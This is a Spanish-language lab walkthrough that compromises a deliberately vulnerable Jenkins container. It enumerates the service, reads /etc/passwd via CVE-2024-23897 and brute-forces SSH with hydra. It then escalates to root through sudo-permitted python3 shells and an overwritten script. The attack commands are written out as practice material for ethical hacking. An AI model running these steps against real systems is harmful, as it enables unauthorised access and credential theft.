# **Máquina: SecretJenkins**

**Dificultad:** Fácil

### 📝 **Descripción:**

SecretJenkins es una máquina vulnerable de nivel fácil orientada a la práctica de técnicas esenciales de pentesting. A través de un entorno web basado en Jenkins, el atacante deberá identificar servicios expuestos, reconocer vulnerabilidades conocidas, explotar una LFI (Local File Inclusion), obtener credenciales mediante fuerza bruta, y finalmente realizar una doble escalada de privilegios para obtener acceso total como root.

---

### 🎯 **Objetivo:**

El objetivo es comprometer completamente la máquina escalando privilegios hasta el usuario root, iniciando desde el análisis de puertos, explotación del servicio Jenkins, acceso mediante SSH y aprovechamiento de configuraciones de `sudo` para lograr el control total del sistema.




---

## 🖥️ **Despliegue de la máquina**

Primero descargamos la máquina vulnerable `secretjenkins.zip`, la descomprimimos con `unzip` y luego la desplegamos utilizando el script proporcionado:

```bash
unzip secretjenkins.zip
sudo bash auto_deploy.sh secretjenkins.tar
```

Esto levanta la máquina en un entorno Docker.


---

## 📡 **Comprobación de conectividad**

Hacemos un ping a la IP asignada (`172.17.0.3`) para confirmar que la máquina está activa:

```bash
ping -c1 172.17.0.3
```



---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo con `nmap` para detectar todos los puertos abiertos de la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Se detectan los siguientes puertos abiertos:

* **22 (SSH)**
* **8080 (HTTP)**
  

Posteriormente, con un script personalizado `extractPorts`, extraemos los puertos encontrados y los usamos para un escaneo más profundo:

```bash
nmap -sCV -p22,8080 172.17.0.3 -oN target.txt
```



---

## 🌐 **Exploración del servicio web**

Al acceder en el navegador a la URL `http://172.17.0.3:8080/`, observamos que se trata del panel de **Jenkins**, un software de integración continua muy utilizado.


---

## 🚪 **Fuzzing de directorios ocultos**

Usamos `gobuster` para buscar rutas ocultas que puedan revelar vulnerabilidades o recursos sensibles:

```bash
gobuster dir -u http://172.17.0.3:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Aunque se encontraron muchos directorios, al acceder a varios de ellos el sitio comenzó a fallar, lo que sugiere una posible **vulnerabilidad de Denegación de Servicio (DoS)**.


---

## 🕵️‍♂️ **Identificación de la versión de Jenkins**

Con `whatweb` identificamos que Jenkins está corriendo en la versión **2.441**:

```bash
whatweb 'http://172.17.0.3:8080/'
```



Aunque `searchsploit` no arrojó resultados relevantes para esta versión, buscando manualmente en internet encontramos una vulnerabilidad **LFI (Local File Inclusion)** identificada como:

🔎 **CVE-2024-23897**
📄 Exploit: [https://www.exploit-db.com/exploits/51993](https://www.exploit-db.com/exploits/51993)

---

## 🐍 **Ejecución del exploit**

Copiamos el código del exploit en un archivo llamado `local_host_intrusion.py`, le damos permisos de ejecución y lo lanzamos:

```bash
chmod +x local_host_intrusion.py
python3 local_host_intrusion.py -u http://172.17.0.3:8080
```

El script permite leer archivos del sistema. Uno de los primeros archivos que leemos es `/etc/passwd`, lo cual nos revela la existencia de varios usuarios: `root`, `bobby`, y `pinguinito`.


---

## 🧨 **Ataque de fuerza bruta (Brute Force) sobre SSH**

Con los usuarios obtenidos, creamos un archivo `usuarios.txt` y lanzamos un ataque de fuerza bruta con `hydra` sobre el servicio SSH:

```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4
```

¡Éxito! Se encontraron credenciales válidas:

* **Usuario:** `bobby`
* **Contraseña:** `chocolate`
  

---

## 🔐 **Acceso inicial como bobby**

Nos conectamos por SSH con las credenciales encontradas:

```bash
ssh bobby@172.17.0.3
```

Luego verificamos los permisos de `sudo` con:

```bash
sudo -l
```

Y encontramos que `bobby` puede ejecutar `python3` como el usuario `pinguinito` sin contraseña. Aprovechamos esto para escalar de usuario:

```bash
sudo -u pinguinito /usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
```



---

## 🚀 **Escalada a root**

Ya como `pinguinito`, volvemos a revisar los privilegios con `sudo -l` y descubrimos que tiene permisos para ejecutar un script específico:

```bash
(pinguinito) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Esto significa que puede ejecutar **ese archivo específico** con permisos de root. Si podemos modificar ese archivo, podemos ganar acceso total.

Eliminamos el contenido original (si existe) y escribimos un script malicioso que nos dé una shell:

```bash
echo 'import os; os.system("/bin/bash")' > /opt/script.py
```

Luego lo ejecutamos con:

```bash
sudo /usr/bin/python3 /opt/script.py
```

¡Y obtenemos acceso como **root**!


---

## 🏁 **Conclusión**

Esta máquina nos permitió practicar múltiples técnicas fundamentales en el hacking ético:

* Escaneo y enumeración de servicios
* Reconocimiento de versiones y fuzzing
* Explotación de vulnerabilidad LFI
* Ataque de fuerza bruta sobre SSH
* Escalada de privilegios usando `sudo`
* Abuso de scripts con permisos específicos

Una máquina ideal para quienes están empezando, ya que cubre un flujo de ataque muy completo de forma práctica y comprensible.
